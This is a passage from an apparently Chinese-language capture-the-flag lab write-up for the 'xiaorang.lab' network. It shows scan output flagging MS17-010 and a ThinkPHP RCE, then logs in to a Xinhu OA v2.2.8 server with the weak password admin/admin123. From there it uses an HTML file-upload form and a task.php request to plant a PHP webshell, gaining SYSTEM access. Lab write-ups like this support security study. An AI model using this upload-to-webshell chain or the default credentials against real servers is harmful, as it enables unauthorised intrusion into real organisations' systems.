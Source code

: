 ```shell
[*] NetBios: 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600 
[*] NetBios: 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] WebTitle: http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] 172.22.1.21 MS17-010        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
已完成 14/14
[*] 扫描结束,耗时: 13.517670397s
```

整理一下

```shell
172.22.1.18 XIAORANG-OA01
端口: 135,80,3306,445,139

172.22.1.21 XIAORANG-WIN7
端口: 445,135,139
MS17-010

172.22.1.2 DC01
端口: 135,139,445,88
```

172.22.1.18 信呼 OA v2.2.8

![image-20230728210123571](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282101600.png)

弱口令 admin/admin123

getshell 参考 [https://www.freebuf.com/articles/web/286380.html](https://www.freebuf.com/articles/web/286380.html)

先上传文件

```html
<form action="http://172.22.1.18/api.php?m=upload&a=upfile&adminid=&device=1625923765752&cfrom=mweb&token=&sysmodenum=officia&sysmid=0&maxsize=2" method="post" enctype="multipart/form-data">
<input type="file" name="file">
<input type="submit">
</form>
```

![image-20230728221109740](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282211795.png)

拿到 id, 然后访问 `http://172.22.1.18/task.php?m=qcloudCos|runt&a=run&fileid=9` 生成 php, 最后蚁剑连接

![image-20230728212459552](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282124578.png)

因为是 PHPStudy 搭建的网站, 权限很大, 直接就是 SYSTEM 权限

在 Administrator 的家目录下拿到 flag02
